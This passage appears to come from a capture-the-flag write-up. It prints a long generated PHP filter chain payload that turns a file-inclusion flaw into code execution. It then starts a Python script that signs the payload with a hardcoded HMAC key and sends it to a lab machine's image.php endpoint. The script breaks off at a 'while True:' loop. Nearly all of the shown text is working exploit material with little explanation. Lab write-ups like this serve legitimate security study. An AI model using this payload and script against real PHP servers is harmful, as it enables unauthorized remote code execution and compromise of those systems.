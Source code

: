```jsx
php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM869.UTF16|convert.iconv.L3.CSISO90|convert.iconv.UCS2.UTF-8|convert.iconv.CSISOLATIN6.UCS-4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.GBK.SJIS|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM869.UTF16|convert.iconv.L3.CSISO90|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.CP950.SHIFT_JISX0213|convert.iconv.UHC.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.CP950.SHIFT_JISX0213|convert.iconv.UHC.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.GBK.BIG5|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.8859_3.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.iconv.UCS-2.OSF00030010|convert.iconv.CSIBM1008.UTF32BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSGB2312.UTF-32|convert.iconv.IBM-1161.IBM932|convert.iconv.GB13000.UTF16BE|convert.iconv.864.UTF-32LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.BIG5HKSCS.UTF16|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.BIG5HKSCS.UTF16|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSIBM1161.UNICODE|convert.iconv.ISO-IR-156.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.ISO2022KR.UTF16|convert.iconv.L6.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=php://temp
                                                                                      
┌──(neo㉿neo)-[~/pro/m/php_filter_chain_generator]

```

### executable code

```jsx
import hmac
import hashlib
import requests

target_url = "http://10.10.97.40/image.php" # change the IP address

secret_key = b"an8h6oTlNB9N0HNcJMPYJWypPR2786IQ4I3woPA1BqoJ7hzIS0qQWi2EKmJvAgOW"
path = "php://filter/convert.iconv.UTF8.CSISO2022KR|    put the generated code form above   |convert.base64-decode/resource=php://temp".encode() # replace with the output of php_filter_chain_generator.py 
h = hmac.new(secret_key, path, hashlib.sha256)
signature = h.hexdigest()

while True:
```